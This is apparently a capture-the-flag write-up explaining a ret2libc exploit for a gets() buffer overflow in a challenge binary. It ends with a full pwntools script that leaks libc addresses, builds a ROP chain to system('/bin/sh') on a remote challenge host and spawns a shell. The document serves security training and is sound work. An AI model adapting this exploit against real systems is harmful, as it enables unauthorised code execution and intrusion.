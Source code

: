# pwn1 Challenge Writeup

> **Category**: Pwn\
> **Author**: Stefan

## TL;DR
A relatively simple Leak2Libc.

---

## Challenge Description
Upon opening the challenge in Ghidra, we had a simple `gets()` and a `puts()` with user input. The goal was to leak the libc address and then use it to get a shell. The buffer was 128 characters long, and I encountered the first problem here:

<img src="https://i.imgur.com/1R2SXOz.png" alt="Writeup_image_1" width="500"/>

## Solution
### Step 1: Identifying the Correct Offset
I initially took the offset from RBP, but I should have looked at the disassembly and taken it from the return address instead. The correct offset was 136 for the RIP register, not 128 as it appeared with RBP.

> **Note**: The RSP register contained the same string as RIP because the main function ended with `leave ret` (function epilogue).

<img src="https://i.imgur.com/0lhtOWs.png" alt="Writeup_image_2" width="500"/>

### Step 2: Fixing the Leak
~~The second issue was that the leak only worked remotely when using `gets` (I'm not sure why).~~
~~As a result, I also had to change the calculation of `libc_base` to use `gets`.~~

<img src="https://i.imgur.com/sITr0BE.png" alt="Writeup_image_3" width="200"/>

The issue was the usage of `strip()`, which removed the last byte. Changing to `strip(b'\n')` fixed this.

### Step 3: Running the Exploit
With the final exploit file, I ran the solve script with the `r` argument and we got a shell.

<img src="https://i.imgur.com/lPsXMez.png" alt="Writeup_image_4" width="500"/>

## Exploit
```python
from pwn import *
import sys

binary = "./main"
remote_conn = "34.107.71.117 32222"
context.log_level = "critical"

if len(sys.argv) > 1 and sys.argv[1] == "l":
    r = process(binary)
    elf = context.binary = ELF(binary)
elif len(sys.argv) > 1 and sys.argv[1] == "r":
    r = remote(remote_conn.split(" ")[0], int(remote_conn.split(" ")[1]))
    elf = ELF(binary)
else:
    print("Usage: python " + sys.argv[0] + " [l|r]")
    sys.exit()

pop_rdi_ret = 0x00000000004011f3
ret = 0x000000000040101a

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.sym['main']

payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
leak_puts = u64(r.recvline().strip(b'\n').ljust(8, b"\x00"))
print("leak puts: ", hex(leak_puts))

payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(elf.got["gets"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
leak_gets = u64(r.recvline().strip(b'\n').ljust(8, b"\x00"))
print("leak gets: ", hex(leak_gets))

if(sys.argv[1] == 'l'):
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    libc=ELF("./libctarget.so")

libc.address = leak_gets - libc.sym["gets"]
bin_sh = next(libc.search(b"/bin/sh"))
print("libc base: ", hex(libc.address))
print("/bin/sh: ", hex(bin_sh))
print("system: ", hex(libc.sym["system"]))
payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh)
payload += p64(libc.sym["system"])

if(sys.argv[1] == "l"):
    gdb.attach(r)

r.sendline(payload)
r.recvline()
r.interactive()
```
## Flag
`CTF{5d312f4b79a334445d084d7eec892bc0a3bec1454e585c4117310b9600e6c1f0}`